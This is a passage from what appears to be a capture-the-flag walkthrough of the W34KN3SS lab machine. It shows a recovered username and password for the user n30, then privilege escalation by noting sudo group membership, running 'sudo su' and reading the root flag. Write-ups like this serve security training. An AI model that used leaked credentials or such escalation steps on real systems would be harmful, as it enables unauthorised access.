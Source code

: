 ```bash
n30:dMASDNB!!#B!#!#33
```
    

## Privilege Escalation
### Sudoers Group

As we can see, n30 belongs to the sudoers group, so I ran the following command and entered the password and we get root.

```bash
n30@W34KN3SS:~$ id
uid=1000(n30) gid=1000(n30) groups=1000(n30),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
n30@W34KN3SS:~$ sudo su
[sudo] password for n30: 
root@W34KN3SS:/home/n30# cd 
root@W34KN3SS:~# ls
root.txt
root@W34KN3SS:~# cat root.txt 
a1d2fab76ec6af9b651d4053171e042e
```

